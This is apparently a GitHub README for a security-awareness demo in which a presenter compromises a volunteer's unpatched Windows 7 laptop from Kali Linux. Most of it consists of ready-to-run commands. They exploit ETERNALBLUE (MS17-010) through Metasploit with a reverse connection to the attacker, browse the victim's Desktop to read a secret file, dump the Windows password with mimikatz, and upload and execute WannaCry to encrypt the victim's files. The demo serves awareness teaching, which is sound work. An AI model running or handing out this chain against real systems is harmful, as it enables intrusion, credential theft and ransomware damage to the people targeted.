 # Basic Security Awareness Demo
Scaring people with ETERNALBLUE, Mimikatz, and WannaCry.

Kali vs. Windows 7 (Unpatched MS17-010)

## 1. Pick the Victim 
* Invite a member of the panel, or audience to operate the victim laptop with Windows 7. 
* Instruct them to set a password on the account, then create a new text file on the Desktop with a name of their choice. 
* Come up with 5 random words for the volunteer to enter into the text file without you knowing.


An attacker seeks control of three things:
* Your computer
* Your passwords
* Your data

## 2. Exploit
ETERNALBLUE is an exploit developed by the U.S. National Security Agency (NSA) according to testimony by former NSA employees. It was leaked by the Shadow Brokers hacker group in April 14, 2017, and was used as part of the worldwide WannaCry ransomware attack on May 12, 2017. ETERNALBLUE exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The NSA eventually warned Microsoft after learning about EternalBlue’s possible theft, allowing the company to prepare a software patch issued in March 2017. According to Microsoft, it was the US's NSA that was responsible, by dint of its controversial strategy of "stockpiling of vulnerabilities", for, at the least, preventing Microsoft from timely public patching of this, and presumably other, hidden bugs.
https://en.wikipedia.org/wiki/EternalBlue

```
#<REPO_PATH>> msfconsole -r eternalblue.rc
msf> ip addr
msf> set LHOST <KALI_IP_ADDRESS>
msf> set RHOST <WIN7_IP_ADDRESS>
msf> exploit
```

## 3. Expose the Secret Message
With this exploit, zero-effort popping of the box is possible; letting hackers in without interacting with the victim. navigate to the victim's Desktop to find the secret message. 
```
meterpreter> cd C:\
meterpreter> cd Users
meterpreter> dir
meterpreter> cd <VICTIM_USERNAME>
meterpreter> cd Desktop
meterpreter> shell
C:\Users\<VICTIM_USERNAME>> cd Desktop
C:\Users\<VICTIM_USERNAME>/Desktop> dir
C:\Users\<VICTIM_USERNAME>/Desktop> type <TXT_FILENAME>
```
We control their computer. 

## 4. Steal the Password
Some people will have their Windows password be the same for other accounts. Attackers can use the Winddows password to attack the victim's other accounts or other resources on the network. 
```
meterpreter> load mimikatz
meterpreter> wdigest
```
We control their password.

## 5. Ruin the Data
Hackers aren't always subtle. To cause a productivity freeze for a workforce, encrypt all their files so every document becomes seemingly random data. 
```
meterpreter> cd AppData
meterpreter> cd Local
meterpreter> cd Temp
meterpreter> upload wannacry.exe
meterpreter> execute -f wannacry.exe
```
* Wait one minute.

We control their data. 
